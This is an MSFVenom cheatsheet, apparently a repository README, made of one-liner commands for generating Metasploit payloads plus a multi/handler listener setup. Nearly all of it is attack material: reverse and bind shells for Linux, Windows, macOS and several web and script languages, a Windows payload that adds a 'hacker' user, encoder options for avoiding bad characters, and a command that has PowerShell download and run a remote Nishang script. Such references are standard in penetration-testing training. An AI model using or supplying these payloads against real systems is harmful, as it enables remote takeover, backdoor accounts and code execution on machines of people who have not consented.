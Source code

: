 # MSFVenom Cheatsheet
Single Page Cheatsheet for common MSF Venom One Liners  
Available in PDF, DOCX and Markdown format!


# MSFVenom Cheatsheet

| MSFVenom Payload Generation One-Liner | Description |
|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|----------------------------------------------------------------|
|    msfvenom -l   payloads                                                                                                                                                                 |    List available payloads                                     |
|    msfvenom -p   PAYLOAD -e ENCODER -f FORMAT -i ENCODE COUNT   LHOST=IP                                                                                                        |    Payload Encoding                                            |
|    msfvenom -p   linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf    shell.elf                                                                                           |    Linux Meterpreter  reverse shell x86 multi stage            |
|    msfvenom -p   linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf    shell.elf                                                                                              |    Linux Meterpreter  bind shell x86 multi stage               |
|    msfvenom -p linux/x64/shell_bind_tcp   RHOST=IP LPORT=PORT -f elf  shell.elf                                                                                                      |    Linux bind shell x64 single stage                           |
|    msfvenom -p linux/x64/shell_reverse_tcp   RHOST=IP LPORT=PORT -f elf  shell.elf                                                                                                   |    Linux reverse shell x64 single stage                        |
|    msfvenom -p   windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe    shell.exe                                                                                             |    Windows Meterpreter reverse shell                           |
|    msfvenom -p   windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe    shell.exe                                                                                               |    Windows Meterpreter bind shell                              |
|    msfvenom -p   windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe    shell.exe                                                                                                   |    Windows CMD Multi Stage                                     |
|    msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT   -f exe  shell.exe                                                                                                     |    Windows CMD Single Stage                                    |
|    msfvenom -p   windows/adduser USER=hacker PASS=password -f exe  useradd.exe                                                                                                           |    Windows add user                                            |
|    msfvenom -p   osx/x86/shell_reverse_tcp LHOST=IP LPORT=PORT -f macho    shell.macho                                                                                               |    Mac Reverse Shell                                           |
|    msfvenom -p   osx/x86/shell_bind_tcp RHOST=IP LPORT=PORT -f macho    shell.macho                                                                                                  |    Mac Bind shell                                              |
|    msfvenom -p   cmd/unix/reverse_python LHOST=IP LPORT=PORT -f raw    shell.py                                                                                                      |    Python Shell                                                |
|    msfvenom -p   cmd/unix/reverse_bash LHOST=IP LPORT=PORT -f raw    shell.sh                                                                                                        |    BASH Shell                                                  |
|    msfvenom -p   cmd/unix/reverse_perl LHOST=IP LPORT=PORT -f raw    shell.pl                                                                                                        |    PERL Shell                                                  |
|    msfvenom -p   windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f asp    shell.asp                                                                                             |    ASP Meterpreter shell                                       |
|    msfvenom -p   java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f raw    shell.jsp                                                                                                  |    JSP Shell                                                   |
|    msfvenom -p   java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war    shell.war                                                                                                  |    WAR Shell                                                   |
|    msfvenom -p   php/meterpreter_reverse_tcp LHOST=IP LPORT=PORT -f raw    shell.php   cat shell.php | pbcopy && echo '?php ' | tr -d '\n'    shell.php && pbpaste  shell.php    |    Php Meterpreter Shell                                       |
|    msfvenom -p   php/reverse_php LHOST=IP LPORT=PORT -f raw    phpreverseshell.php                                                                                                   |    Php Reverse Shell                                           |
|    msfvenom -a x86   --platform Windows -p windows/exec CMD="powershell \\"IEX(New-Object   Net.webClient).downloadString('http://IP/nishang.ps1')\\""   -f python                        |    Windows Exec Nishang Powershell in   python   |
|    msfvenom -p   windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT   -f c -e x86/shikata_ga_nai -b "\x04\xA0"                                                            |    Bad characters shikata_ga_nai                               |
|    msfvenom -p   windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT   -f c -e x86/fnstenv_mov -b "\x04\xA0"                                                               |    Bad characters fnstenv_mov                                  |

# Multihandler Listener
To get multiple session on a single multi/handler, you need to set the ExitOnSession option to false and run the exploit -j instead of just the exploit. For example, for meterpreter/reverse_tcp payload,  
```
msf>use exploit multi/handler  
msf>set payload windows/meterpreter/reverse_tcp  
msf>set lhost <IP>  
msf>set lport <PORT>  
msf> set ExitOnSession false  
msf>exploit -j  
```
The -j option is to keep all the connected session in the background.  


# References

https://kb.help.rapid7.com/discuss/598ab88172371b000f5a4675  
https://thor-sec.com/cheatsheet/oscp/msfvenom_cheat_sheet/  
http://security-geek.in/2016/09/07/msfvenom-cheat-sheet/  
